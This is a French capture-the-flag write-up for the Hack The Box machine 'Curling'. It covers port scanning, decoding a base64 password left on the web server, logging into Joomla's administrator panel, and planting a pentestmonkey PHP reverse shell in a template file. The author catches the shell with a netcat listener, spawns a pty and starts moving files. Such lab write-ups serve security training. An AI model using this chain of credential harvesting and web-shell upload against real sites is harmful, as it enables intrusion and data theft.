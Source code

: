 # Curling writeups by Seyptoo.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/13/6/1553953753-capture-du-2019-03-30-14-49-00.png)]

Nmap Scan
----

    Starting Nmap 7.01 ( https://nmap.org ) at 2019-03-30 14:55 CET
    Nmap scan report for 10.10.10.150
    Host is up (0.045s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
    |_  256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
    80/tcp open  http?
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 193.48 seconds
    
Alors concrètement il y'a 2 ports ouvert le SSH pour le 22 et le HTTP pour le 80. Nous allons un peu énumérer sur le serveur web.

HTTP
----

Quand nous envoyions une rêquete HTTP avec curl, on peut constater que il y'a un fichier spécial nommé secret.txt. Nous allons essayer de lire ce fichier texte.

    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150
    [...SNIP...]
    </body>
      <!-- secret.txt -->
    </html>
    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150/secret.txt
    Q3VybGluZzIwMTgh
    root@Computer:~/htb/writeup/Curling# curl http://10.10.10.150/secret.txt -s|base64 -d
    Curling2018!
    
Ceci ressemble à un mot de passe, probablement pour le CMS. Il y'a aussi un nom d'utilisateur dans un article ça pourrais nous servir.

[![forthebadge made-with-python](https://cdn.discordapp.com/attachments/556442801085218827/561556044367527979/unknown.png)]

J'ai pas encore lancé de gobuster je vais lancé ça automatiquement.

Gobuster
----
    root@seyptoo-Aspire-E5-721:~/htb/writeup/Curling# gobuster -w /usr/share/wordlist/directory-list-2.3-medium.txt -u http://10.10.10.150 -o output-gobuster.log

    Gobuster v1.4.1              OJ Reeves (@TheColonial)
    =====================================================
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://10.10.10.150/
    [+] Threads      : 10
    [+] Wordlist     : /usr/share/wordlist/directory-list-2.3-medium.txt
    [+] Output file  : output-gobuster.log
    [+] Status codes : 200,204,301,302,307
    =====================================================
    /images (Status: 301)
    /media (Status: 301)
    /templates (Status: 301)
    /modules (Status: 301)
    /bin (Status: 301)
    /plugins (Status: 301)
    /includes (Status: 301)
    /language (Status: 301)
    /components (Status: 301)
    /cache (Status: 301)
    /libraries (Status: 301)
    /tmp (Status: 301)
    /layouts (Status: 301)
    /administrator (Status: 301)

 Nous avons beaucoup de dossiers, on va s'intéréssé à la page d'administration, le CMS utilisé est Joomla. J'ai essayer avec plusieurs utilisateur notamment avec admin, administrator etc.. et finalement l'utilisateur est floris et le mot de passe est Curling2018!. La connexion fonctionne avec succès.
 
 Username : floris<br />
 Password : Curling2018
 
 Joomla
 ----
 
Une fois connecté sur le CMS, allez sur l'onglet Templates et ensuite il y'aurais deux autres onglets nommé Styles et Templates, cliquez sur Templates après avoir cliqué vous devez cliqué sur 'Beez3 Details and Files' de crée un nouveau fichier php, pour le code php je vous conseille pentestmonkey une fois le code mis et bien sauvegardé. Vous pouvez exécuter votre code dans /templates/beez3/your.php


Shell > User.txt
----
    root@Computer:~/htb/writeup/Curling# nc -lvnp 1234
    Listening on [0.0.0.0] (family 0, port 1234)
    Connection from [10.10.10.150] port 1234 [tcp/*] accepted (family 2, sport 58834)
    [...SNIP...]
    $ python3 -c "import pty;pty.spawn('/bin/bash')"
    www-data@curling:/$ ls
    bin   home            lib64       opt   sbin      sys  vmlinuz
    boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
    dev   initrd.img.old  media       root  srv       usr
    etc   lib             mnt         run   swap.img  var
    www-data@curling:/$ cd /home/floris
    www-data@curling:/home/floris$ ls
    admin-area  password_backup  user.txt
    
Comme vous pouvez le voir il y'a un fichier password_backup, le fichier user.txt est impossible à lire car nous avons pas les permissions de lire ce fichier. Donc je vais transférer le fichier password_backup vers ma machine physique.

[![forthebadge made-with-python](https://im.ezgif.com/tmp/ezgif-1-6c0da889e0b9.gif)]



 
 

  
